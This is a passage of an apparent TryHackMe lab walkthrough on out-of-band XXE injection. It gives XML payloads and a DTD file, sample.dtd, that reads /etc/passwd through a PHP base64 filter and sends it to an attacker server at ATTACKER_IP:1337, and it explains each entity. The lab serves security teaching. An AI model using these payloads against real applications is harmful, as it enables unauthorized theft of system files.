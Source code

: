 ```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://$KALI:1337/" >]>
<upload><file>&xxe;</file></upload>
```

Send the modified HTTP request.

\


<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/08cbba233f61b8bc17e166c089931bd6.png" alt=""><figcaption></figcaption></figure>

After sending the modified HTTP request, the Python web server will receive a connection from the target machine. The establishment of a connection with the server indicates that sensitive information can be extracted from the application.

\


<figure><img src="https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/8cfa02d850cc73372dd6993acd9265fd.png" alt=""><figcaption></figcaption></figure>

We can now create a DTD file that contains an external entity with a PHP filter to exfiltrate data from the target web application.

Save the sample DTD file below and name it as `sample.dtd`. The payload below will exfiltrate the contents of `/etc/passwd` and send the response back to the attacker-controlled server:

**sample.dtd**

```xml
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

DTD Payload Explained

The DTD begins with a declaration of an entity `%cmd` that points to a system resource. The **`%cmd`** entity refers to a resource within the PHP filter protocol `php://filter/convert.base64-encode/resource=/etc/passwd`. It retrieves the content of `/etc/passwd`, a standard file in Unix-based systems containing user account information. The `convert.base64-encode` filter encodes the content in Base64 format to avoid formatting problems. The **`%oobxxe`** entity contains another XML entity declaration, `exfil`, which has a system identifier pointing to the attacker-controlled server. It includes a parameter named data with `%cmd`, representing the Base64-encoded content of `/etc/passwd`. When `%oobxxe;` is parsed, it creates the `exfil` entity that connects to an attacker's server (`http://ATTACKER_IP:1337/`). The parameter `?data=%cmd` sends the Base64-encoded content from `%cmd`.

Go back to the repeater and change your payload to:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE upload SYSTEM "http://ATTACKER_IP:1337/sample.dtd">
<upload>
    <file>&exfil;</file>
</upload>
```
